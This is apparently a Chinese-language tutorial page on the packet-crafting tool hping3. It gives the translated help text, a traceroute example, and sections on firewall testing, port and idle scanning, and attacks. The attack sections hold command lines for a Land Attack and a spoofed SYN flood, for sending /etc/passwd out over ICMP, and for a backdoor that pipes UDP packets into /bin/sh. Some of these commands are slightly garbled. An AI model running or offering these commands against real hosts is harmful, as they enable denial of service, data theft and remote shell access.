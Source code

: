 ```yaml
---
title: hping3
categories: Information Gathering
tags: [hping3,information gathering,kali linux,spoofing,recon]
date: 2017-04-23 06:52:00
---
```

0x00 hping3介绍
-------------
hping是面向命令行的用于生成和解析TCP/IP协议数据包汇编/分析的开源工具。作者是Salvatore Sanfilippo，界面灵感来自ping（8）unix命令，目前最新版是hping3，它支持TCP，UDP，ICMP和RAW-IP协议，具有跟踪路由模式，能够在覆盖的信道之间发送文件以及许多其他功能，支持使用tcl脚本自动化地调用其API。hping是安全审计、防火墙测试等工作的标配工具。hping优势在于能够定制数据包的各个部分，因此用户可以灵活对目标机进行细致地探测。


<!--more-->


虽然hping以前主要用作安全工具，但它可以在许多方面被不太关心安全性的人员用于测试网络和主机，您可以使用hping的一小部分内容：
```plain
 - 防火墙测试
 - 高级端口扫描
 - 网络测试，使用不同的协议，TOS，分片
 - 手动路径MTU发现
 - 在所有支持的协议下，高级traceroute
 - 远程操作系统指纹
 - 远程正常运行时间猜测
 - TCP/IP协议栈审计
 - hping也可以用于学习TCP/IP的学生
```
<!--more-->

工具来源：http://www.hping.org/
[hping3主页][1] | [Kali hping3仓库][2]

 - 作者：Salvatore Sanfilippo
 - 证书：GPLv2

0x01 hping3功能
----------------

```plain
root@kali:~# hping3 -h
用法: hping3 主机 [options]
  -h  --help      显示帮助
  -v  --version   显示版本
  -c  --count     数据包计数
  -i  --interval  等待 (uX即X微秒, 例如： -i u1000)
      --fast      等同 -i u10000 (每秒10个包)
      --faster    等同 -i u1000 (每秒100个包)
      --flood     尽最快发送数据包，不显示回复。
  -n  --numeric   数字输出
  -q  --quiet     静默模式
  -I  --interface 接口名 (默认路由接口)
  -V  --verbose   详细模式
  -D  --debug     调试信息
  -z  --bind      绑定ctrl+z到ttl(默认为目的端口)
  -Z  --unbind    取消绑定ctrl+z键
      --beep      对于接收到的每个匹配数据包蜂鸣声提示
模式
  默认模式     TCP
  -0  --rawip      原始IP模式
  -1  --icmp       ICMP模式
  -2  --udp        UDP模式
  -8  --scan       SCAN模式
                   例子: hping --scan 1-30,70-90 -S www.target.host
  -9  --listen     listen模式
IP
  -a  --spoof      伪造源地址
  --rand-dest      随机目的地址模式。详细使用man命令
  --rand-source    随机来源地址模式。详细使用man命令
  -t  --ttl        ttl (默认64)
  -N  --id         id (默认随机)
  -W  --winid      使用win* id字节顺序
  -r  --rel        相对id字段(估计主机流量)
  -f  --frag       拆分数据包更多的frag
  -x  --morefrag   设置更多的分段标志
  -y  --dontfrag   设置不分段标志
  -g  --fragoff    设置分段偏移
  -m  --mtu        设置虚拟最大传输单元
  -o  --tos        服务类型（默认为0x00），尝试--tos帮助
  -G  --rroute     包含RECORD_ROUTE选项并显示路由缓冲区
  --lsrr           松散源路由并记录路由
  --ssrr           严格源路由并记录路由
  -H  --ipproto    设置IP协议字段，仅在RAW IP模式下使用
ICMP
  -C  --icmptype   icmp类型(默认echo请求)
  -K  --icmpcode   icmp代号(默认0)
      --force-icmp 发送所有icmp类型(默认仅发送支持的类型)
      --icmp-gw    设置ICMP重定向网关地址(默认0.0.0.0)
      --icmp-ts    等同 --icmp --icmptype 13 (ICMP 时间戳)
      --icmp-addr  等同 --icmp --icmptype 17 (ICMP 地址子网掩码)
      --icmp-help  显示其他icmp选项帮助
UDP/TCP
  -s  --baseport   基源端口(默认随机)
  -p  --destport   [+][+]<port> 目的端口(默认0) ctrl+z inc/dec
  -k  --keep       保持源端口
  -w  --win        windows发送字节(默认64)
  -O  --tcpoff     设置伪造tcp数据偏移量(取代tcp地址长度除4)
  -Q  --seqnum     仅显示tcp序列号
  -b  --badcksum   (尝试)发送具有错误IP校验和数据包                    
                   许多系统将修复发送数据包的IP校验和                    
                   所以你会得到错误UDP/TCP校验和。
  -M  --setseq     设置TCP序列号
  -L  --setack     设置TCP确认
  -F  --fin        设置FIN标志
  -S  --syn        设置SYN标志
  -R  --rst        设置RST标志
  -P  --push       设置PUSH标志
  -A  --ack        设置ACK标志
  -U  --urg        设置URG标志
  -X  --xmas       设置X未使用的标志(0x40)
  -Y  --ymas       设置Y未使用的标志(0x80)
  --tcpexitcode    使用last tcp-> th_flags作为退出码
  --tcp-mss        启用具有给定值的TCP MSS选项
  --tcp-timestamp  启用TCP时间戳选项来猜测HZ/uptime
通用
  -d  --data       数据大小(默认0)
  -E  --file       文件数据
  -e  --sign       添加“签名”
  -j  --dump       转储为十六进制数据包
  -J  --print      转储为可打印字符
  -B  --safe       启用“安全”协议
  -u  --end        告诉你什么时候--file达到EOF并防止倒回
  -T  --traceroute traceroute模式(等同使用 --bind 且--ttl 1)
  --tr-stop        在traceroute模式下收到第一个不是ICMP时退出
  --tr-keep-ttl    保持源TTL固定，仅用于监视一跳
  --tr-no-rtt      不要在跟踪路由模式下计算/显示RTT信息 ARS包描述（新增功能，不稳定）
  --apd-send       发送APD描述数据包(参见docs / APD.txt)
```

0x02 hping3用法示例
---------
对于目标（www.example.com），使用跟踪路由模式（-traceroute），在ICMP模式（-1）中详细显示verbose（-V）：
```plain
root@kali:~# hping3 --traceroute -V -1 www.example.com
using eth0, addr: 192.168.1.15, MTU: 1500
HPING www.example.com (eth0 93.184.216.119): icmp mode set, 28 headers + 0 data bytes
hop=1 TTL 0 during transit from ip=192.168.1.1 name=UNKNOWN
hop=1 hoprtt=0.3 ms
hop=2 TTL 0 during transit from ip=192.168.0.1 name=UNKNOWN
hop=2 hoprtt=3.3 ms
```

0x03 hping3典型功能
-----------

**防火墙测试**
使用Hping3指定各种数据包字段，依次对防火墙进行详细测试。请参考：http://0daysecurity.com/articles/hping3_examples.html 
测试防火墙对ICMP包的反应、是否支持traceroute、是否开放某个端口、对防火墙进行拒绝服务攻击（DoS attack）。
例如，以LandAttack方式测试目标防火墙（Land Attack是将发送源地址设置为与目标地址相同，诱使目标机与自己不停地建立连接）。 

    hping3 -S -c 1000000 -a 10.10.10.10 -p 21 10.10.10.10 

端口扫描 
Hping3也可以对目标端口进行扫描。Hping3支持指定TCP各个标志位、长度等信息。
以下示例可用于探测目标机的80端口是否开放： 

    hping3 -I eth0 -S 192.168.10.1 -p 80 

其中-I eth0指定使用eth0端口，-S指定TCP包的标志位SYN，-p 80指定探测的目的端口。 
hping3支持非常丰富的端口探测方式，nmap拥有的扫描方式hping3几乎都支持（除开connect方式，因为Hping3仅发送与接收包，不会维护连接，
所以不支持connect方式探测）。而且Hping3能够对发送的探测进行更加精细的控制，方便用户微调探测结果。
当然，Hping3的端口扫描性能及综合处理能力，无法与Nmap相比。一般使用它仅对少量主机的少量端口进行扫描。 

**Idle扫描** 
Idle扫描（Idle Scanning）是一种匿名扫描远程主机的方式，该方式也是有Hping3的作者Salvatore Sanfilippo发明的，
目前Idle扫描在Nmap中也有实现。 该扫描原理是：寻找一台idle主机（该主机没有任何的网络流量，并且IPID是逐个增长的），
攻击端主机先向idle主机发送探测包，从回复包中获取其IPID。冒充idle主机的IP地址向远程主机的端口发送SYN包（此处假设为SYN包），
此时如果远程主机的目的端口开放，那么会回复SYN/ACK，此时idle主机收到SYN/ACK后回复RST包。然后攻击端主机再向idle主机发送探测包，
获取其IPID。那么对比两次的IPID值，我们就可以判断远程主机是否回复了数据包，从而间接地推测其端口状态。 

**拒绝服务攻击** 

使用Hping3可以很方便构建拒绝服务攻击。比如对目标机发起大量SYN连接，伪造源地址为192.168.10.99，并使用1000微秒的间隔发送各个SYN包。

    hping3 -I eth0 -a192.168.10.99 -S 192.168.10.33 -p 80 -i u1000 

其他攻击如smurf、teardrop、land attack等也很容易构建出来。 

**文件传输** 
Hping3支持通过TCP/UDP/ICMP等包来进行文件传输。相当于借助TCP/UDP/ICMP包建立隐秘隧道通讯。
实现方式是开启监听端口，对检测到的签名（签名为用户指定的字符串）的内容进行相应的解析。
在接收端开启服务： 

    hping3 192.168.1.159--listen signature --safe --icmp 

监听ICMP包中的签名，根据签名解析出文件内容。 
在发送端使用签名打包的ICMP包发送文件： 

    hping3 192.168.1.108--icmp ?d 100 --sign signature --file /etc/passwd 

将/etc/passwd密码文件通过ICMP包传给192.168.10.44主机。发送包大小为100字节（-d 100），发送签名为signature(-sign signature)。 

**木马功能** 
如果Hping3能够在远程主机上启动，那么可以作为木马程序启动监听端口，并在建立连接后打开shell通信。与netcat的后门功能类似。 
示例：本地打开53号UDP端口（DNS解析服务）监听来自192.168.10.66主机的包含签名为signature的数据包，并将收到的数据调用/bin/sh执行。 
在木马启动端： 

    hping3 192.168.10.66--listen signature --safe --udp -p 53 | /bin/sh 

在远程控制端： 

    echo ls >test.cmd hping3 192.168.10.44 -p53 -d 100 --udp --sign siganature --file ./test.cmd 

将包含ls命令的文件加上签名signature发送到192.168.10.44主机的53号UDP端口，包数据长度为100字节。 
当然这里只是简单的演示程序，真实的场景，控制端可以利益shell执行很多的高级复杂的操作。



  [1]: http://www.hping.org/
  [2]: http://git.kali.org/gitweb/?p=packages/hping3.git;a=summary